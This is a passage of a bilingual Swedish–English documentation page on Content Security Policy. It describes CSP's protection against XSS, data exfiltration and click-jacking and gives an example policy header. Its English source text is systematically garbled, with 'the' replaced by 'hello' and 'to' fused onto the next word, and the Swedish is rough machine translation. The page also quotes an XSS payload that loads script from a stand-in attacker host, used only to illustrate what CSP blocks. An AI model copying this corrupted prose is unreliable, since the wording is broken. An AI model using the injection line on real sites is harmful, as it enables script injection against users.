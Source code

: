 | <span data-ttu-id="3599a-153">**Steg**</span><span class="sxs-lookup"><span data-stu-id="3599a-153">**Steps**</span></span> | <p><span data-ttu-id="3599a-154">Innehåll Security Policy (CSP) är en skydd på djupet säkerhetsmekanism, en W3C som standard, som gör att programmet ägare toohave webbkontroll på hello innehåll, inbäddat i deras plats.</span><span class="sxs-lookup"><span data-stu-id="3599a-154">Content Security Policy (CSP) is a defense-in-depth security mechanism, a W3C standard, that enables web application owners toohave control on hello content embedded in their site.</span></span> <span data-ttu-id="3599a-155">CSP läggs till som en HTTP-svarshuvud på hello webbserver och tillämpas på klientsidan för hello av webbläsare.</span><span class="sxs-lookup"><span data-stu-id="3599a-155">CSP is added as an HTTP response header on hello web server and is enforced on hello client side by browsers.</span></span> <span data-ttu-id="3599a-156">Det är en godkänd lista principbaserad - en webbplats kan deklarera en uppsättning betrodda domäner från det aktiva innehållet, t.ex. JavaScript kan läsas in.</span><span class="sxs-lookup"><span data-stu-id="3599a-156">It is a whitelist-based policy - a website can declare a set of trusted domains from which active content such as JavaScript can be loaded.</span></span></p><p><span data-ttu-id="3599a-157">CSP innehåller följande säkerhetsfördelarna hello:</span><span class="sxs-lookup"><span data-stu-id="3599a-157">CSP provides hello following security benefits:</span></span></p><ul><li><span data-ttu-id="3599a-158">**Skydd mot XSS:** om en sida är sårbar tooXSS kan en angripare kan utnyttja den 2 sätt:</span><span class="sxs-lookup"><span data-stu-id="3599a-158">**Protection against XSS:** If a page is vulnerable tooXSS, an attacker can exploit it in 2 ways:</span></span><ul><li><span data-ttu-id="3599a-159">Mata in `<script>malicious code</script>`.</span><span class="sxs-lookup"><span data-stu-id="3599a-159">Inject `<script>malicious code</script>`.</span></span> <span data-ttu-id="3599a-160">Den här utnyttja fungerar inte på grund av Toocsp's grundläggande begränsning-1</span><span class="sxs-lookup"><span data-stu-id="3599a-160">This exploit will not work due tooCSP’s Base Restriction-1</span></span></li><li><span data-ttu-id="3599a-161">Mata in `<script src=”http://attacker.com/maliciousCode.js”/>`.</span><span class="sxs-lookup"><span data-stu-id="3599a-161">Inject `<script src=”http://attacker.com/maliciousCode.js”/>`.</span></span> <span data-ttu-id="3599a-162">Den här utnyttja fungerar inte eftersom hello angripare kontrollerade domänen är inte i CSP godkänd lista över domäner</span><span class="sxs-lookup"><span data-stu-id="3599a-162">This exploit will not work since hello attacker controlled domain will not be in CSP’s whitelist of domains</span></span></li></ul></li><li><span data-ttu-id="3599a-163">**Kontroll över data exfiltration:** om någon skadlig innehåll på en webbsida försöker tooconnect tooan extern webbplats och stjäla data, hello anslutningen kommer att avbrytas av CSP.</span><span class="sxs-lookup"><span data-stu-id="3599a-163">**Control over data exfiltration:** If any malicious content on a webpage attempts tooconnect tooan external website and steal data, hello connection will be aborted by CSP.</span></span> <span data-ttu-id="3599a-164">Detta beror på att hello måldomänen är inte i listan över godkända CSP</span><span class="sxs-lookup"><span data-stu-id="3599a-164">This is because hello target domain will not be in CSP’s whitelist</span></span></li><li><span data-ttu-id="3599a-165">**Skydd mot Klicka fästpunkter:** Klicka fästpunkter är en teknik för angrepp med som en angriparen kan ram en äkta webbplats och tvinga användare tooclick för UI-element.</span><span class="sxs-lookup"><span data-stu-id="3599a-165">**Defense against click-jacking:** click-jacking is an attack technique using which an adversary can frame a genuine website and force users tooclick on UI elements.</span></span> <span data-ttu-id="3599a-166">För närvarande uppnås skydd mot Klicka fästpunkter genom att konfigurera ett svar huvud-X-ram-alternativ.</span><span class="sxs-lookup"><span data-stu-id="3599a-166">Currently defense against click-jacking is achieved by configuring a response header- X-Frame-Options.</span></span> <span data-ttu-id="3599a-167">Det här sidhuvudet värnar om inte alla webbläsare och gå framåt CSP blir ett standardiserat sätt toodefend mot fästpunkter klickar du på</span><span class="sxs-lookup"><span data-stu-id="3599a-167">Not all browsers respect this header and going forward CSP will be a standard way toodefend against click-jacking</span></span></li><li><span data-ttu-id="3599a-168">**Rapportering i realtid attack:** om en injection attack på en webbplats med CSP-aktiverad webbläsare automatiskt utlöser en aviseringsslutpunkten tooan som konfigurerats på hello webbserver.</span><span class="sxs-lookup"><span data-stu-id="3599a-168">**Real-time attack reporting:** If there is an injection attack on a CSP-enabled website, browsers will automatically trigger a notification tooan endpoint configured on hello webserver.</span></span> <span data-ttu-id="3599a-169">Det här sättet CSP fungerar som en realtid varningssystem.</span><span class="sxs-lookup"><span data-stu-id="3599a-169">This way, CSP serves as a real-time warning system.</span></span></li></ul> |

### <a name="example"></a><span data-ttu-id="3599a-170">Exempel</span><span class="sxs-lookup"><span data-stu-id="3599a-170">Example</span></span>
<span data-ttu-id="3599a-171">Exempelprincip:</span><span class="sxs-lookup"><span data-stu-id="3599a-171">Example policy:</span></span> 
```C#
Content-Security-Policy: default-src 'self'; script-src 'self' www.google-analytics.com 
```